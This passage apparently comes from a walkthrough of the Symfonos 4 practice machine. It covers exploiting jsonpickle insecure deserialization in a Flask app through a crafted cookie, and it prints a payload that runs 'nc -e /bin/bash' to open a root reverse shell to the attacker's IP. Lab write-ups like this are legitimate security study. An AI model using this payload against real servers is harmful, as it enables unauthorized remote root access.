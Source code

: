 We can see that username is base64 encoded, decoding it gives us   

<img src="https://noman-aziz.github.io/resources/2021/symfonos4/23.png" width="800">

This tells us that there is a python flask server running with the user “Poseidon”. We will now try to find the `app.py` to look at the source code.  

<img src="https://noman-aziz.github.io/resources/2021/symfonos4/24.png" width="800">

The app is present in the `/opt/code` directory. After looking at the source code, we can see that it is importing some libraries and most importantly in our case `jsonpickle`

<img src="https://noman-aziz.github.io/resources/2021/symfonos4/25.png" width="800">

A simple `searchsploit jsonpickle` tells us about an **insecure deserialization** RCE vulnerability

<img src="https://noman-aziz.github.io/resources/2021/symfonos4/26.png" width="800">

We can give custom commands to the cookie that was being set earlier and have ourselves an RCE on the machine. A simple google search on jsonpickle exploit gives us the following shell code which is just using python os module to execute netcat command with uid 0 which is of root.   

```
{"py/object": "__main__.Shell", "py/reduce": [{"py/function": "os.system"}, ["/usr/bin/nc -e /bin/bash 192.168.18.25 6666"], 0, 0, 0]}
```

After base64 encoding it,

<img src="https://noman-aziz.github.io/resources/2021/symfonos4/27.png" width="800">

Now, we will again send a request to the server using `curl` using our spoofed cookie and start a netcat listener on our machine.

<img src="https://noman-aziz.github.io/resources/2021/symfonos4/28.png" width="800">

We have successfully gotten a reverse shell on the target machine with root user

<img src="https://noman-aziz.github.io/resources/2021/symfonos4/29.png" width="800">

### Capturing the Flag

<img src="https://noman-aziz.github.io/resources/2021/symfonos4/30.png" width="800">

